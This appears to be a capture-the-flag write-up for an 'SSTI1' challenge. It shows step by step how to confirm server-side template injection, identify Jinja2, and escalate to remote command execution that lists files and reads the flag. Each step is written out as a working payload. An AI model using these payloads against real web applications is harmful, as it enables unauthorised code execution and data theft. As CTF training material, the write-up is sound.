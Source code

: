 # SSTI1
## Description: 
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. First confirming SSTI using the payload, ${{<%[%'"}}%\. and it should cause internal server error.
2. Using the payload {{7*'7'}}, we get 7777777. Thus, Jinja2 is being used.
3. To dump all available built-in function, try {{self.__init__.__globals__.__builtins__}}. Notice no blacklisting to user input.
4. To gain RCE and list available files, try {{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}
5. Lastly, to read flag, use {{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
